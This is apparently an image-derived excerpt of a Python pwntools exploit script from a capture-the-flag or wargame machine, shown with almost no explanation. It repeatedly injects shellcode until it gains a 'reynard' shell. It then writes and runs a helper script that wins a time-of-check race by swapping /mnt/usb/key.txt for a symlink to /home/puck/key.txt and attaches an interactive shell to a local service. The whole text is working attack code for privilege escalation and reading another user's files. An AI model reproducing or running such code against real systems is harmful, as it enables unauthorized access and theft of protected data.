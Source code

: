 ```python
log.info(actual_shellcode)

# Sometimes the command didn't work. This will repeat throwing the command until we get a reynard shell.
r.sendline('cd /home/reynard/private')
while True:
    r.clean()
    r.sendline(actual_shellcode)
    r.clean()
    r.sendline('id')
    output = r.recv()
    if 'reynard' in output:
        break

log.success("You are now:")
log.success("reynard")
sleep(1)

r.sendline('id')

r.sendline(""" echo "
import os
import socket
import telnetlib
import subprocess

HOST = 'localhost'
PORT = 7075

try:
    os.remove('/mnt/usb/key.txt')
except:
    pass

# Ensure we have a file to begin with
subprocess.check_output(['touch', '/mnt/usb/key.txt'])

# Connect and check for symlink
r = socket.socket()
r.connect((HOST, PORT))

# Quickly remove the non-symlinked file and re-symlink
os.remove('/mnt/usb/key.txt')
os.symlink('/home/puck/key.txt', '/mnt/usb/key.txt')

# Try for our shellz
t = telnetlib.Telnet()
t.sock = r
t.interact()

r.close()
" > win.py
""")

log.info("Let's hope we win the race.. go go go!")

r.sendline("python win.py")
r.clean()
r.sendline("whoami")
output = r.recv()
log.success("I choose you!:")
log.success(output)

```